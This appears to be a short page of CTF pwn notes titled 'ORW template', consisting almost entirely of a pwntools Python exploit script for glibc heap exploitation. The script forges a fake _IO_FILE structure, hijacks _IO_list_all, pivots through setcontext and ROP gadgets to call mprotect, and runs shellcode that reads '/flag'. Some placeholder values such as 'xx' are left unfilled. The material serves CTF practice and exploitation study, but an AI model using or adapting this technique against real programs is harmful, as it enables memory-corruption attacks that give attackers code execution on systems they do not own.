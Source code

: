 ‍

### ORW 模板

‍

```python
heap_base = xx - 1952
libc.address = libc_base
_IO_list_all    = libc.sym['_IO_list_all']
add(0x60,p64(_IO_list_all-0x20))


add(0x60,'/bin/sh\x00')
add(0x60,'/bin/sh\x00')
add(0x60,'/bin/sh\x00')
pay = p64(0)*2 + p64(heap_base + 2832)
add(0x60,pay)

libc.address = libc_base
libc_rop = ROP(libc)
system          = libc.sym['system']
mprotect        = libc.sym['mprotect']
setcontext      = libc.sym['setcontext']
__free_hook     = libc.sym['__free_hook']
_IO_list_all    = libc.sym['_IO_list_all']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]

RCE = setcontext + 61
fake_IO_addr = heap_base + 2832
shellcode_addr = fake_IO_addr + 248
pop_5_ret = libc_base + 1270861         # pop 5*;ret  # libc.2.31 9.7
pop_5_ret = libc_base + 1270861 - 0x30  # pop 5*;ret  # libc.2.31 9.12
pop_5_ret = libc_rop.find_gadget(['pop rbx','pop rbp','pop r13','pop r14','pop r15','ret'])[0]
#lss('pop_5_ret')
#gdb.attach(io)

fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x1000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect)
fake_IO_FILE += p64(shellcode_addr)
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(pop_5_ret) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.cat('/flag'))

add(0x400,fake_IO_FILE)
lss('libc_base')
lss('heap_base')
```
